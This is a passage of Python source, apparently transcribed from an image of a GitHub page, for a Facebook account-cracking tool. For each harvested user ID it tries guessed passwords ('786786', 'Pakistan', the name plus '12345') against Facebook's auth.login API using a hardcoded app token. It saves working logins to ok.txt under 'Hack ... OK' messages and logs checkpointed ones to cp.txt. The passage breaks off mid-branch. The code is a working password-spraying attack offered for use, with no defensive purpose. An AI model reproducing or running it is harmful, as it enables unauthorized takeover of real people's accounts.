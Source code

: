	elif select =="0":
		menu()
	else:
		print ("[!] Pilih Yang Bener Dong")
		crapil()
	print("[✓] Total ID : "+str(len(id)))
	time.sleep(0.5)
	print("PLEASE WAIT.........................!!!!!!!!!!!!!!")
	print("CRACKING ACCOUNTS WILL BE APPEAR HERE..")
	print "\n\033[1;97m«-----\x1b[1;91m【To Stop Process Press CTRL+Z】\033[1;97m----»"
	print "\033[1;97m«--------------------\033[1;92m▣\033[1;97m--------------------»"
	
	
	def main(arg):
		user=arg
		uid,name=user.split("|")
		try:
		    pass1='786786'
		    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=en_US&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6", headers=header).text
		    d=json.loads(q)
		    if 'www.facebook.com' in d['error_msg']:
		        print("Error "+uid+" | "+pass1+" --> CP")
		        cp=open("cp.txt","a")
		        cp.write(uid+" | "+pass1+"\n")
		        cp.close()
		        cps.append(uid)
		    else:
		    	if "access_token" in d:
		            print("\x1b[1;92mHack \033[1;30m"+uid+" | "+pass1+" --> OK\x1b[1;0m")
		            ok=open("ok.txt","a")
		            ok.write(uid+" | "+pass1+"\n")
		            ok.close()
		            oks.append(uid)
		        else:
		            pass2="Pakistan"
		            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=en_US&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6", headers=header).text
		            d=json.loads(q)
		            if 'www.facebook.com' in d['error_msg']:
		                print("Error "+uid+" | "+pass2+" --> CP")
		                cp=open("cp.txt","a")
		                cp.write(uid+" | "+pass2+"\n")
		                cp.close()
		                cps.append(uid)
		            else:
		                if 'access_token' in d:
		                    print("\x1b[1;92mHack \033[1;30m"+uid+" | "+pass2+" --> OK\x1b[1;0m")
		                    ok=open("ok.txt","a")
		                    ok.write(uid+" | "+pass2+"\n")
		                    ok.close()
		                    oks.append(uid)
		                else:
		                    pass3=name+"12345"
		                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=en_US&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6", headers=header).text
		                    d=json.loads(q)
		                    if 'www.facebook.com' in d['error_msg']: